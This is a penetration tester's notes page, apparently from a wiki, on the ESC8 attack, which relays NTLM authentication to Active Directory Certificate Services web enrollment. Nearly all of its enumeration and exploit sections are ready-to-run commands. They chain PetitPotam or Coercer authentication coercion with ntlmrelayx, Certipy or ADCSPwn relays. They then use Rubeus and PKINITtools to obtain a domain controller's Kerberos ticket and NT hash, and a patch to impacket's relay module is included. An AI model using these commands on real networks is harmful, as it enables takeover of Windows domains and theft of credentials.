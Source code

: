 ```yaml
---
description: NTLM Relay to AD CS HTTP Endpoints
---
```


# ESC8

* [https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/](https://blog.truesec.com/2021/08/05/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory/)
* [https://habr.com/ru/company/deiteriylab/blog/581758/](https://habr.com/ru/company/deiteriylab/blog/581758/)




## Enumerate

Discover CES endpoints with certutil:

```
Cmd > certutil.exe -enrollmentServerURL -config CA01.megacorp.local\CA01
```

Discover CES endpoints with PowerShell:

```
PS > Get-CertificationAuthority | select name,enroll* | fl
```

Check a bunch of targets for the vulnerable endpoint:

```
$ for ip in `cat ~/ws/discover/hosts/ca.txt`; do curl -sSLkI -u 'MEGACORP\snovvcrash:Passw0rd!' --ntlm http://$ip/certsrv/certfnsh.asp | grep -e 401 -e 200 > /dev/null && echo "[+] $ip" || echo "[-] $ip"; done
```




## Exploit



### ntlmrelayx

* [https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* [https://github.com/SecureAuthCorp/impacket/pull/1101](https://github.com/SecureAuthCorp/impacket/pull/1101)
* [https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server --adcs [--template VulnTemplate]
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
PS > .\Rubeus.exe asktgt /user:DC1$ /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```



### PKINITtools

* [https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)
* [https://github.com/dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)
* [https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099](https://gist.github.com/snovvcrash/8b6a1a10e1f47439d16072c60cc2e099)

Backup original `httpattack.py` and copy one from the toolkit with a modified domain name and a template if needed (`DomainController` is by default, but also one may use `KerberosAuthentication`):

```
$ sudo cp /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak
$ subl ntlmrelayx/httpattack.py
$ sudo cp ntlmrelayx/httpattack.py /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```

Perform the relay attack, request the TGT via PKINIT and get the NT hash based on U2U Kerberos extension:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp -smb2support --no-wcf-server
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 gettgtpkinit.py megacorp.local/'DC1$' -cert-pem cert.pem -key-pem privatekey.pem dc1.ccache
$ KRB5CCNAME=dc1.ccache python3 getnthash.py megacorp.local/'DC1$' -key 00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff
```

Revert the original `httpattack.py`:

```
$ sudo mv /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py.bak /usr/lib/python3/dist-packages/impacket/examples/ntlmrelayx/attacks/httpattack.py
```



### Certipy

Prepare for the relay attack:

```
$ certipy relay -ca 192.168.1.12 -template DomainController
```



### ADCSPwn

- [https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)

{% embed url="https://youtu.be/W9pUCVxe59Q" %}

Start a relay server:

```
PS > .\ADCSPwn.exe --adcs CA01.megacorp.local
```

Coerce the authentication, e. g. via [Coercer](https://github.com/p0dalirius/Coercer):

```
$ coercer -u snovvcrash -p 'Passw0rd!' -wh VICTIM01 -wp 8080 -t 192.168.1.11
```
